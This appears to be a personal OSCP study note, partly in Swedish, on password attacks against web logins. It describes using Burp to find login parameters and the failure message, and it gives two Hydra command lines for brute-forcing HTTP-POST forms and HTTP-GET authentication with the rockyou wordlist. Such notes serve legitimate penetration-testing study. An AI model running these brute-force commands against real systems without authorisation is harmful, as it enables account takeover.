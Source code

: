 ```yaml
---
{"dg-publish":true,"permalink":"/OSCP/h. Password Attacks/2. HTTP Login Attack/"}
---
```



### HTTP-POST Attack:
1. Använd Burp för att ta reda på 1. Parameternamnen för inloggningen, och 2. Errortexten vid misslyckad inloggning
2. Exempel Hydra:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/index.php:user=username&password=^PASS^:Login failed. Invalid"
```

### HTTP-GET Attack:
```bash
sudo hydra -l <username> -P /usr/share/wordlists/rockyou.txt -s 80 -f <ip> http-get
```

